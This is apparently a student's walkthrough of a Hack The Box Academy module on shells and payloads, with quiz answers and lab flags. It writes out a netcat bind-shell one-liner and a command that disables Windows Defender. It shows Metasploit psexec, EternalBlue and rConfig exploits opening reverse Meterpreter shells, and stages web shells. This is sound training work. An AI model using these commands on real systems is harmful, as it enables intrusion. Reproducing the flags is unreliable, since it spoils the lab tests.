





# Anatomy of a Shell

- Which two shell languages did we experiment with in this section? (Format: shellname&shellname)
**`bash&powershell`**

- In Pwnbox issue the $PSversiontable variable using PowerShell. Submit the edition of PowerShell that is running as the answer.
```powershell
PS [10.10.14.124] /home/htb-ac-539570 > echo $PSversiontable

Name                           Value
----                           -----
PSVersion                      7.5.0
PSEdition                      Core
GitCommitId                    7.5.0
OS                             Parrot Security 6.3 (lorikeet)
Platform                       Unix
PSCompatibleVersions           {1.0, 2.0, 3.0, 4.0…}
PSRemotingProtocolVersion      2.3
SerializationVersion           1.1.0.1
WSManStackVersion              3.0
```

# Bind Shells

- Des is able to issue the command nc -lvnp 443 on a Linux target. What port will she need to connect to from her attack box to successfully establish a shell session? ANS: 443
- SSH to the target, create a bind shell, then use netcat to connect to the target using the bind shell you set up. When you have completed the exercise, submit the contents of the flag.txt file located at /customscripts.

```zsh
❯ ssh htb-student@10.129.106.191
```

On target:
```bash
htb-student@ubuntu:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 0.0.0.0 1234 > /tmp/f
```

On VM
```zsh
exec bash --login
nc -nv 10.129.81.57 1234
(UNKNOWN) [10.129.81.57] 1234 (?) open
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

htb-student@ubuntu:~$ 
htb-student@ubuntu:~$ cat /customscripts/flag.txt 
B1nD_Shells_r_cool

```

# Reverse Shells

-  When establishing a reverse shell session with a target, will the target act as a client or server? > Client

- Connect to the target via RDP and establish a reverse shell session with your attack box then submit the hostname of the target box.

On the target, run powershell as administrator:
```powershell
Set-MpPreference -DisableRealtimeMonitoring` $true
```

Next, run cmd.exe them run this payload:


On the VM:

```zsh
rlwrap nc -lnvp 4444
```

```powershell
listening on [any] 4444 ...
connect to [10.10.14.124] from (UNKNOWN) [10.129.201.51] 49874
whoami
shells-win10\htb-student
PS C:\Users\htb-student> hostname
Shells-Win10
PS C:\Users\htb-student> 
```

# Automating Payloads & Delivery with Metasploit

- What command language interpreter is used to establish a system shell session with the target?
> Powershell

-  Exploit the target using what you've learned in this section, then submit the name of the file located in htb-student's Documents folder. (Format: filename.extension)
```zsh
❯ sudo msfconsole -q
msf6 > search exploit windows smb psexec
msf6 > use 22
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
[*] New in Metasploit 6.4 - This module can target a SESSION or an RHOST

msf6 exploit(windows/smb/psexec) > set rhosts 10.129.201.160
rhosts => 10.129.201.160
msf6 exploit(windows/smb/psexec) > set SMBUser htb-student
SMBUser => htb-student
msf6 exploit(windows/smb/psexec) > set SMBPass HTB_@cademy_stdnt!
SMBPass => HTB_@cademy_stdnt!
msf6 exploit(windows/smb/psexec) > set lhost tun0
lhost => 10.10.14.124
msf6 exploit(windows/smb/psexec) > set lport 1234
lport => 1234
msf6 exploit(windows/smb/psexec) > exploit
[*] Started reverse TCP handler on 10.10.14.124:1234 
[*] 10.129.201.160:445 - Connecting to the server...
[*] 10.129.201.160:445 - Authenticating to 10.129.201.160:445 as user 'htb-student'...
[*] 10.129.201.160:445 - Selecting PowerShell target
[*] 10.129.201.160:445 - Executing the payload...
[+] 10.129.201.160:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (177734 bytes) to 10.129.201.160
[*] Meterpreter session 1 opened (10.10.14.124:1234 -> 10.129.201.160:63027) at 2025-04-20 03:59:51 -0400

meterpreter > 
meterpreter > ls -l C:/Users/htb-student/Documents
Listing: C:/Users/htb-student/Documents
=======================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040777/rwxrwxrwx  0     dir   2021-10-16 12:08:05 -0400  My Music
040777/rwxrwxrwx  0     dir   2021-10-16 12:08:05 -0400  My Pictures
040777/rwxrwxrwx  0     dir   2021-10-16 12:08:05 -0400  My Videos
100666/rw-rw-rw-  402   fil   2021-10-16 12:08:07 -0400  desktop.ini
100666/rw-rw-rw-  268   fil   2021-10-16 16:16:01 -0400  staffsalaries.txt

```

# Infiltrating Windows

- What file type is a text-based DOS script used to perform tasks from the cli? (answer with the file extension, e.g. '.something') > .bat

- What Windows exploit was dropped as a part of the Shadow Brokers leak? (Format: ms bulletin number, e.g. MSxx-xxx) > MS17-010

- Gain a shell on the vulnerable target, then submit the contents of the flag.txt file that can be found in C:\

```zsh
❯ sudo nmap --script smb-vuln* -p 139,445 10.129.201.97
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-20 04:33 EDT
Nmap scan report for 10.129.201.97
Host is up (0.36s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)

Nmap done: 1 IP address (1 host up) scanned in 18.32 seconds
```

```zsh
msf6 exploit(windows/smb/ms17_010_eternalblue) > use exploit/windows/smb/ms17_010_psexec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_psexec) > set rhosts 10.129.201.97
rhosts => 10.129.201.97
msf6 exploit(windows/smb/ms17_010_psexec) > set lhost tun0
lhost => tun0
msf6 exploit(windows/smb/ms17_010_psexec) > set lport 1234
lport => 1234
msf6 exploit(windows/smb/ms17_010_psexec) > run
[*] Started reverse TCP handler on 10.10.14.124:1234 
meterpreter > ls C:/
Listing: C:/
============

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
040777/rwxrwxrwx  0       dir   2020-10-05 19:18:31 -0400  $Recycle.Bin
100666/rw-rw-rw-  1       fil   2016-07-16 09:18:08 -0400  BOOTNXT
040777/rwxrwxrwx  0       dir   2020-10-02 20:22:46 -0400  Documents and Settings
040777/rwxrwxrwx  0       dir   2016-07-16 09:23:21 -0400  PerfLogs
040555/r-xr-xr-x  4096    dir   2020-10-05 21:51:03 -0400  Program Files
040777/rwxrwxrwx  4096    dir   2020-10-05 21:51:03 -0400  Program Files (x86)
040777/rwxrwxrwx  4096    dir   2020-10-02 13:28:44 -0400  ProgramData
040777/rwxrwxrwx  0       dir   2020-10-02 20:22:47 -0400  Recovery
040777/rwxrwxrwx  4096    dir   2021-09-23 11:39:44 -0400  System Volume Information
040555/r-xr-xr-x  4096    dir   2020-10-05 21:51:25 -0400  Users
040777/rwxrwxrwx  24576   dir   2021-10-19 17:43:11 -0400  Windows
100444/r--r--r--  389408  fil   2016-11-20 19:42:45 -0500  bootmgr
100666/rw-rw-rw-  14      fil   2021-10-18 16:52:34 -0400  flag.txt
040777/rwxrwxrwx  4096    dir   2021-10-18 16:51:10 -0400  inetpub
000000/---------  0       fif   1969-12-31 19:00:00 -0500  pagefile.sys

meterpreter > cat C:/flag.txt
EB-Still-W0rk$
meterpreter > 
```

# Infiltrating Unix/Linux

- What language is the payload written in that gets uploaded when executing rconfig_vendors_auth_file_upload_rce? > PHP


- Exploit the target and find the hostname of the router in the devicedetails directory at the root of the file system.

```zsh
❯ sudo nmap -sS -F 10.129.201.101 -v
[sudo] password for kali: 
Sorry, try again.
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-20 04:59 EDT
Initiating Ping Scan at 04:59
Scanning 10.129.201.101 [4 ports]
Completed Ping Scan at 04:59, 0.30s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 04:59
Completed Parallel DNS resolution of 1 host. at 04:59, 0.05s elapsed
Initiating SYN Stealth Scan at 04:59
Scanning 10.129.201.101 [100 ports]
Discovered open port 80/tcp on 10.129.201.101
Discovered open port 443/tcp on 10.129.201.101
Discovered open port 111/tcp on 10.129.201.101
Discovered open port 22/tcp on 10.129.201.101
Discovered open port 3306/tcp on 10.129.201.101
Discovered open port 21/tcp on 10.129.201.101
Completed SYN Stealth Scan at 04:59, 1.10s elapsed (100 total ports)
Nmap scan report for 10.129.201.101
Host is up (0.27s latency).
Not shown: 94 closed tcp ports (reset)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
443/tcp  open  https
3306/tcp open  mysql

```

```zsh
❯ curl https://10.129.201.101/login.php -k | grep -i "ver"
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  5866  100  5866    0     0   4348      0  0:00:01  0:00:01 --:--:--  4351
        <p>rConfig Version 3.9.6<span>&nbsp;&nbsp;&nbsp;</span>&copy; rConfig 2015 - 2025</p>
```

```zsh
❯ sudo msfconsole -q
msf6 > use exploit/linux/http/rconfig_vendors_auth_file_upload_rce
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > set rhosts 10.129.201.101
rhosts => 10.129.201.101
msf6 exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > set lhost tun0
lhost => tun0
msf6 exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > run

meterpreter > ls -l devicedetails
Listing: devicedetails
======================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  568   fil   2021-10-18 17:23:40 -0400  edgerouter-isp.yml
100644/rw-r--r--  179   fil   2021-10-18 17:28:03 -0400  hostnameinfo.txt

```

# Laudanum, One Webshell to Rule Them All

```zsh
❯ echo 10.129.42.197    status.inlanefreight.local | sudo tee -a /etc/hosts 
❯ cp /usr/share/laudanum/aspx/shell.aspx .
❯ nano shell.aspx
```


 - Establish a web shell session with the target using the concepts covered in this section. Submit the full path of the directory you land in. (Format: c:\path\you\land\in)



 -  Where is the Laudanum aspx web shell located on Pwnbox? Submit the full path. (Format: /path/to/laudanum/aspx)

```zsh
❯ realpath /usr/share/laudanum/aspx/shell.aspx
/usr/share/laudanum/aspx/shell.aspx
```

# Antak Webshell

```zsh
❯ cp /usr/share/nishang/Antak-WebShell/antak.aspx .
```

- Where is the Antak webshell located on Pwnbox? Submit the full path. (Format:/path/to/antakwebshell)

```zsh
❯ realpath /usr/share/nishang/Antak-WebShell/antak.aspx
/usr/share/nishang/Antak-WebShell/antak.aspx
```

- Establish a web shell with the target using the concepts covered in this section. Submit the name of the user on the target that the commands are being issued as. In order to get the correct answer you must navigate to the web shell you upload using the vHost name. (Format: ****\****, 1 space)

# PHP Web Shells

-  In the example shown, what must the Content-Type be changed to in order to successfully upload the web shell? (Format: .../... ) > image/gif

- Use what you learned from the module to gain a web shell. What is the file name of the gif in the /images/vendor directory on the target? (Format: xxxx.gif)
